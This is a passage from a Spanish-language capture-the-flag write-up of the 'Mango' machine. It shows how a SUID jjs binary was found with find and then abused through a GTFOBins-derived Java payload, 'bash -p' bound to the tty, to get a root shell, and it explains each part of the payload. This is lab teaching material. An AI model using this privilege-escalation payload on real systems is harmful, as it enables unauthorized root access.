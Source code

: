 Perfecto, ahora que somos admin, podemos tomar la bandera de user.

# user.txt

``` text
admin@mango:/home/admin$ cat user.txt
<omitido>
```

# From admin to root

## privesc

Ahora como admin y antes de lanzar un linenum, busque archivos donde admin fuera propietario o perteneciera al grupo:

``` text
admin@mango:/home/admin$ find /usr -user admin -type f 2>/dev/null
admin@mango:/home/admin$ find /usr -group admin -type f 2>/dev/null
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
admin@mango:/home/admin$ ls -lah /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-rwsr-sr-- 1 root admin 11K Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

El resultado es claro, tenemos SUID en este archivo, el cual root es owner y nosotros somos miembros del mismo grupo.

## SUID jjs

No tomo ni 2 minutos y gtfobins ya tenia una nota asociada.

``` text
https://gtfobins.github.io/gtfobins/jjs/#suid
```

Siguiendo la nota de gtfobins, y haciendo un par de cambios, preparamos el siguiente script para `jjs`

``` java
Java.type('java.lang.Runtime')
  .getRuntime()
    .exec('/bin/bash -pc $@|bash${IFS}-p _ echo bash -p <$(tty) >$(tty) 2>$(tty)')
      .waitFor()
```

Este exec es un tanto rebuscado e interesante, asi que por partes:

- `-p` aparece en todas partes, debido a que esto nos permite que al momento que hagamos nuestra invocación, las variables de root sean pasadas correctamente, como cuando hacemos un `su -` versus un `su`. Esto tiene relación entre el effective user (admin) y el real user (root). 
- `<$(tty) >$(tty) 2>$(tty)`, aquí básicamente lo que hacemos es conectarnos con la tty sobre la cual estamos trabajando, y redireccionamos tanto lo que sale como lo que entra (STDIN,STDOUT,STDERR). Esto nos servirá para que la salida sea la entrada del primer programa que conectamos a un pipe.
- `bash -pc`, se encarga de ejecutar el comando que recibe como argumento.
- `$@|bash${IFS}-p`, este se encarga de recibir un comando via el array de argumentos y ejecutarlo en bash por que lo recibe por el pipe. La variable ${IFS} es sustituida por un espacio dentro del string para concatenar el argumento `-p`.
